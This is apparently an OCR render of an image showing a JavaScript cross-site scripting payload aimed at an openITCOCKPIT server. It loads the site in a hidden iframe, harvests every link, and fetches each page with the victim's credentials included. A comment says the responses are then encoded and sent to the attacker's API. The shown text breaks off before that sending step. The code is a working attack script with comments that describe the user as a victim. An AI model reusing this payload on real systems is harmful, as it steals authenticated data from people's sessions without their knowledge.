 ```JavaScript
<div class="container">
    <div class="row">
        <div class="col-xs-12">
                    </div>
    </div>
</div>
</body>
</html>
`
//Create the full-page iframe element
var iframe = document.createElement('iframe');
//don't want to show any loading of page to victim so display set to none
iframe.setAttribute("style","display:none")
//
iframe.onload = actions;
iframe.width = "100%"
iframe.height = "100%"
//set the source to root of openitcockpit page
iframe.src = "https://openitcockpit"

body = document.getElementsByTagName('body')[0];
body.appendChild(iframe)

//create function for the timeout
function actions(){
    setTimeout(function(){ getContent() }, 5000);
}

//function to get content
function getContent(){
	//grab all the a elements from the iframe
	allA = iframe.contentDocument.getElementsByTagName("a")

	//put the collection of the links in an array, extract the href tags and remove duplicate links
	allHrefs = []
	for (var i=0; i<allA.length; i++){
	    allHrefs.push(allA[i].href)
	}
	//convert the HTML collection of unique values, to an array
	uniqueHrefs = _.unique(allHrefs)

	//create a new array for valid URLs
	validUniqueHrefs = []
	//loop throught the unique and valid Hrefs
	for(var i=0; i<uniqueHrefs.length; i++){
		//check if the URL is valid and verify that it won't log out the target
		if (validURL(uniqueHrefs[i])){
			validUniqueHrefs.push(uniqueHrefs[i])
			}
		}  
	validUniqueHrefs.forEach(href =>{
		//use fetch with each valid link and unique href
		//the fetch method will return a javascript promise.
	    fetch(href, {
		        "credentials": "include",
		        "method": "GET",
	    })
		    //sstore the response
		    .then((response) => {
			    return response.text()
	    })
		    //encode and send the response to our API
		    .then(function (text){
```